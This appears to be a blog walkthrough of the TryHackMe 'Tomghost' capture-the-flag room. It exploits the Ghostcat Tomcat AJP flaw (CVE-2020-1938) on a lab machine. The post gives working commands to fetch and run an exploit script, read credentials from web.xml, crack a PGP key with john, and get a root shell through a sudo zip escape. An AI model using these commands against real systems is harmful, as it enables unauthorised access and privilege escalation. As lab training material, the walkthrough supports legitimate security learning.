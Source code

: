 ```yaml
---
layout: post
title: Tomghost – Try Hack Me
subtitle: Walkthrough
tags: []
---
```

This machine presents us a challenge related to the latest Tomcat vulnerability, you will understand it and exploit it, in order to get full control of the machine.

Learning Objectives:

* CVE 2020-1938

[Challenge](https://tryhackme.com/room/tomghost)

## Task 1 

Initiate the VPN connection and deploy the machine.  

We start by adding the IP address of our machine to the /etc/hosts.  

~~~
echo "10.10.196.184 tom" > /etc/hosts
~~~

Nmap scan to discover what we are working with.  

~~~
nmap -A -T4 tom
~~~

![nmap](/img/2020-05-10-Tomcat/nmap.png)

We see that on port 8080 we have a Tomcat webserver and that port 8009 is open. A recent exploit capable of reading files just came out this year called Ghostcat. Let's try it.  
Download the [exploit](https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py).  
The first argument relates to the IP address, the second to the port where Apache Jserv is running, the thrid to a file and at last the fourth argument is to read the file.

~~~
wget https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py
python3 ajpShooter.py http://tom 8009 /WEB-INF/web.xml read
~~~

![ghostcat](/img/2020-05-10-Tomcat/ghostcat.png)

Just like that we found credentials for the user skyfuck, let's try and ssh into the machine.  
Once in the machine you can cat the user.txt file.

~~~
ssh skyfuck@tom
cat /home/merlin/user.txt
~~~

In your home directory you will find two extra files, 'tryhackme.asc' and 'credential.pgp'.  
We can use john to discover the password in 'tryhackme.asc'. Get theses files in your machine and search for gpg2john. You can use this command.

~~~
find / -name gpg2john
~~~
Then you can pass it the file we got from the challenge machine and save the output.  
Now with john we can crack the hash as discover the password.

~~~
/usr/sbin/gpg2john tryhackme.asc > PgpHash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt/rockyou.txt PgpHash.txt
~~~

![john](/img/2020-05-10-Tomcat/john.png)

Once we know the password we can decrypt 'credential.pgp'. First, we need to import the password file and then we can decrypt it.

~~~
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
~~~

![merlin](/img/2020-05-10-Tomcat/merlin.png)

We now have the credentials for the user merlin. Let's ssh with this user and check his permissions.

~~~
ssh merlin@tom
sudo -l
~~~

![zip](/img/2020-05-10-Tomcat/zip.png)

This user can run zip as sudo, after a quick search about zip priv esc, we find that you can open a shell with zip. First, create a random file and then escalate privileges.

~~~
touch a
sudo zip 1.zip a -T --unzip-command="sh -c /bin/bash"
~~~

![root](/img/2020-05-10-Tomcat/root.png)

You now have a root shell, go ahead and get the last flag.



